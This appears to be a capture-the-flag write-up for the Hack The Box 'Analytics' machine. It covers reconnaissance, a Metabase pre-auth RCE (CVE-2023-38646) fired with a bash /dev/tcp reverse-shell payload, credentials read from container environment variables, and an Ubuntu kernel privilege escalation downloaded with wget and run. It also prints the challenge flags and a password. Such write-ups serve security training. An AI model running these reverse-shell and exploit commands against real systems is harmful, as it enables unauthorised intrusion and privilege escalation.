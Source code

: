 ![Analytics-Pwned.png](./img/Analytics.png)
# Initial Reconnaissance
1. `curl -I 10.10.11.224` to find a possible location / DNS name
2. get a result of `analytical.htb`, add to `/etc/hosts`
3. login page lead to another DNS named `data.analytical.htb`, add to `/etc/hosts`
4. login page uses metabase
5. nothing interesting

# User Escalation
1. found RCE metabase (CVE-2023-38646) POC `https://github.com/m3m0o/metabase-pre-auth-rce-poc`
2. setup nc listener `nc -lvnp 9090`
3. get the setup-token from `/api/session/properties`
4. run the POC script `python main.py -t http://data.analytical.htb -t setup-token -c "bash -i >& /dev/tcp/my-ip/9090 0>&1"`\
note: to get your IP, `ifconfig` look for `tun` connection should be 10.10.x.y
5. get a connection in the nc listener
6. looks like i'm inside a container, check for environment variables `env`
7. exposed a credentials `metalytics:An4lytics_ds20223#`
8. ssh into the machine `ssh metalytics@10.10.11.224`, then enter the password, if fingerprint thing is asked, just `yes`
9.  once logged in, do `ls`, notice a list of file
10. `cat user.txt`
11. flag: `d79087ca55465b0f50a125b4491f26b2`

# Further Reconnaissance
1. `sudo -l` to check any available sudo command, return nothing
2. `ls /usr/bin` to find interesting binary to be exploited, found nothing interesting
3. `uname -rs` or `uname -a` find the kernel and OS version, return an Ubuntu with linux kernel 6.2.0-25

# Privilege Escalation
1. there's been a recent discovery of ubuntu privesc CVE-2023-2640 an CVE-2023-32629
2. found the POC `https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629`
3. clone the repositories, change to the repositories directory, i need to send it into the target machine
4. setup a simple http server on the repositories directory `python -m http.server`, open a http server with port 8000
5. on the target machine, create a directory `mkdir /tmp/random_name` then move to the `/tmp/random_name` directory (unwritten rules, value others by not giving the exploit or making a mess to the challenges)
6. download the file from my machine `wget my-ip:8000/exploit.sh`
7. exploit should be just a file, make it executable `chmod +x exploit.sh`
8. `./exploit.sh`, to run the exploit
9. notice that the name have been changed from `metalytics` to `root` or read the prompt in the terminal after running the script
10. `cat /root/root.txt`
11. flag: `e4a9094067381779986ebcfe49ba7873`

![Analytics-Pwned.png](./img/Analytics-Pwned.png)